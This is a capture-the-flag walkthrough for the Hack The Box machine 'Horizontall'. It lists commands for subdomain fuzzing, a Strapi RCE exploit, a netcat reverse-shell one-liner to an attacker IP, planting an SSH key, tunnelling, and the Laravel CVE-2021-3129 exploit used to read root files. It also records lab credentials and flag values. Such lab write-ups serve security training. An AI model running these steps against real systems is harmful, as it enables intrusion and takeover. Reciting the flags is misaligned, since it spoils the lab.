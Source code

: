 # Horizontall - Easy

```shell
sudo vim /etc/hosts
#10.10.11.105 horizontall.htb

nmap -T4 -p- -A -Pn -v horizontall.htb

feroxbuster -u http://horizontall.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2

sudo wfuzz -c -f sub-fighter -u "http://horizontall.htb" -H "Host: FUZZ.horizontall.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
#gives false positive for 13 words, so we need to exclude it

sudo wfuzz -c -f sub-fighter -u "http://horizontall.htb" -H "Host: FUZZ.horizontall.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 13

sudo vim /etc/hosts
#add subdomain

feroxbuster -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 401,404,405,500

#search for strapi exploit
python3 strapi-rce.py http://api-prod.horizontall.htb
#prints jwt
#we get shell

id
#blind rce, so we don't get output
#migrate to better shell

#setup listener in new tab
nc -nvlp 5555

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 5555 >/tmp/f

#we get reverse shell in new listener
python -c 'import pty;pty.spawn("/bin/bash")'

whoami
#strapi user

cd /tmp

#in attacker machine
python3 -m http.server

#get linpeas from attacker machine in shell
wget http://10.10.14.5:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#go through config files
cat /opt/strapi/myapi/config/environments/development/database.json
#we get creds
#but it does not work for ssh login

#check listening ports
ss -ltnp

#check what's running on localhost 8000
curl http://127.0.0.1:8000

#we can log into SSH as strapi from our machine
cd /opt/strapi

mkdir .ssh

cd .ssh

#now, in attacker machine
ssh-keygen -f strapi
#no need for passphrase
#this generates strapi (private key) and strapi.pub (public key)

chmod 600 strapi

cat strapi.pub
#copy contents

#in reverse shell
#copy contents to authorized_keys
echo "ssh-rsa ..... sv@kali" > authorized_keys

chmod 600 authorized_keys

#now, in attacker machine
ssh -i strapi strapi@10.10.11.105
#we can login as strapi now

bash

#escape ssh using Enter + ~ + C keybind

#port forwarding
#in ssh prompt
-L 8000:127.0.0.1:8000

#now we can access the page on localhost:8000

#for laravel v8 exploit
python3 cve-2021-3129.py

python3 cve-2021-3129.py http://127.0.0.1:8000 Monolog/RCE1 whoami
#root

python3 cve-2021-3129.py http://127.0.0.1:8000 Monolog/RCE1 'cat /home/developer/user.txt'

python3 cve-2021-3129.py http://127.0.0.1:8000 Monolog/RCE1 'cat /root/root.txt'
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1
  * 80 - http - nginx 1.14.0 (Ubuntu)

* We can begin enumerating the webpage on port 80 - ```feroxbuster``` finds /css, /img and /js, but we cannot access those directories.

* As the webpage does not contain anything significant, we can attempt to search for subdomains.

* With the help of ```wfuzz```, we can attempt to search for subdomains - we need to exclude the subdomains with 13 words due to false positives.

* ```wfuzz``` takes time, but eventually we get the subdomain 'api-prod' - we need to add this entry to our /etc/hosts file.

* An alternate way to find this subdomain is by checking the JS files for the webpage - the app script mentions <http://api-prod.horizontall.htb/reviews> endpoint.

* Now, we can start enumerating the subdomain using ```feroxbuster``` and check for hidden pages.

* We find these directories in the subdomain:

  * /admin
  * /reviews
  * /robots.txt
  * /users

* The /admin page contains a login portal for ```strapi```, while /reviews and /users are .json data.

* Now, we can Google for ```strapi``` to know more about it - seems to be a CMS.

* Googling for exploits related to this, we get multiple results - we can try the RCE exploit.

* Now, for the exploit, we can navigate to <http://api-prod.horizontall.htb/admin/init> and confirm the version - it shows strapi version 3.0.0-beta.17.4 - so this exploit would work.

* Running the exploit gives us a limited shell - it is based on blind RCE - so we can setup a new listener and run a reverse-shell one-liner to get another shell.

* Now, we are user 'strapi'; we can enumerate other users' directories for clues.

* We can use ```linpeas``` for basic enumeration.

* Using this, we are able to find some readable config files in /opt/strapi/myapi/config/environments/development/database.json - this contains the creds "developer:#J!:F9Zt2u".

* We can try logging into SSH as developer user with the found password, but it does not work.

* Now, checking for listening ports, we can see that we have ports listening on port 1337, 3306, and 8000 - 1337 is running nodejs and 3306 is used for mySQL.

* To check what's on 127.0.0.1:8000, we can use ```curl```.

* We can see that this port is running ```Laravel v8``` - Googling for exploits related to this version gives us results for CVE-2021-3129.

* Now, we need to access this page in order to exploit.

* As we can write in strapi user's directory, we can create SSH key pair on our machine, drop a key in victim machine, and access from our machine using SSH.

* After logging into the victim machine as strapi using SSH, we can escape the current SSH session using ```Enter + ~ + C```

* Now, from our SSH session, we can use SSH tunneling to get access to the webpage running on port 8000.

* We can confirm that the page on localhost:8000 is running Laravel v8.

* We can get the exploit for this from GitHub; executing it gives us the output of the command given as parameter.

* So, we can execute the commands to get user flag and root flag through the exploit script.

```markdown
1. User flag - 35889a008d63a847aa0d84860b5a79c8

2. Root flag - 0594c6be727a664d2218045e7b3e42b8
```
